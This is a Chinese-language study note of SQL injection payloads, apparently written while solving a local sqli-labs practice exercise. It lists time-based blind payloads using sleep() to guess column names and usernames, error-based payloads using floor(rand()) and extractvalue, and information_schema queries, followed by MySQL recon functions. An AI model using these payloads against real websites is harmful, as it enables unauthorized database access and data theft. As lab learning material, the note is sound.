   猜测 users 表的列
  http://127.0.0.1/sqllib/Less-9/?id=1'and If(ascii(substr((select column_name from information
  _schema.columns where table_name='users' limit 0,1),1,1))=105,1,sleep(5))--+
  猜测 username 的值
  http://127.0.0.1/sqllib/Less-9/?id=1'and If(ascii(substr((select username from users limit 0,1), 1,1))=68,1,sleep(5))-- -
  猜第2位
  'and If(ascii(substr((select username from users limit 0,1), 2,1))=117,1,sleep(5))-- -
  是Dump
  SELECT CONCAT(id, '，', name) AS con FROM info LIMIT 1
  concat 某几列
  limit1    行1
  以上为  查询第一行的  id 列 和name列，中间用,号隔开
- 报 错 注 入
  1' union Select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a--+
- uname=admin"and extractvalue(1,concat(0x7e,(select @@version),0x7e))#&passwd=1&sub
  If(ascii(substr(database(),1,1))>115,0,sleep(5))%23
- select table_name from information_schema.tables where table_schema='security' limit 0,1
  table_name   
  MYSQL 里面所有的表
  information_schema.tables
- 系统函数
  介绍几个常用函数：
- 1. version()——MySQL 版本
  2. user()——数据库用户名
  3. database()——数据库名
  4. @@datadir——数据库路径
  5. @@version_compile_os——操作系统版本

